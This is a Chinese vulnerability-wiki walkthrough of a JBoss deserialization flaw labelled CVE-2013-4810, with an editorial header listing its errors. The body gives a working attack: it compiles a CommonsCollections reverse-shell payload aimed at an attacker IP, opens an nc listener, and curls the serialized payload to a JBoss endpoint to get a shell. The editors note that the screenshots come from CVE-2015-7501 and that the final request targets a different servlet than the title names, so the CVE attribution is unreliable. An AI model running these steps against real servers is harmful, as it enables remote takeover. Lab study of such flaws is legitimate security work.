

# （CVE-2013-4810）JBoss EJBInvokerServle 反序列化漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 证据范围：原标题EJBInvokerServle缺t，测试用7501截图，最终却请求7504的HTTPServerILServlet；无法用此文证明4810。

### 已有来源支持的更正

- 原始4810披露确为HP PCM+/ALM暴露EJBInvokerServlet和JMXInvokerServlet，无需认证可安装应用

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 产品未写HP系列，简介与影响均为空，CVE来源边界错
- 最终payload端点与标题不同，必须隔离待重写
- 明说借7501截图，不能作4810实测证据
- Java命令后中文括注直接黏参数，缺JRE/目标JBoss版本与修复
- 路径拼写错误及图片尾巴残渣

### 核验来源

- https://www.zerodayinitiative.com/advisories/ZDI-13-229/

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入http://172.26.1.151:8080/invoker/EJBInvokerServle
返回如图（图片是CVE-2015-7501的图片。差不多就是这个意思。凑活看哈\~），说明接口开发，存在反序列化漏洞

JBossEJBInvokerServle反序列化漏洞/media/rId24.png)

进入kali攻击机，下载反序列化工具:<https://github.com/ianxtianxt/CVE-2015-7501/>

解压完，进入到这个工具目录 ,执行命令:

    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

继续执行命令:

    java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

    curl http://172.26.1.151:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 

JBossEJBInvokerServle反序列化漏洞/media/rId26.png)

打开nc界面，发现shell已经弹回来了

JBossEJBInvokerServle反序列化漏洞/media/rId27.png)
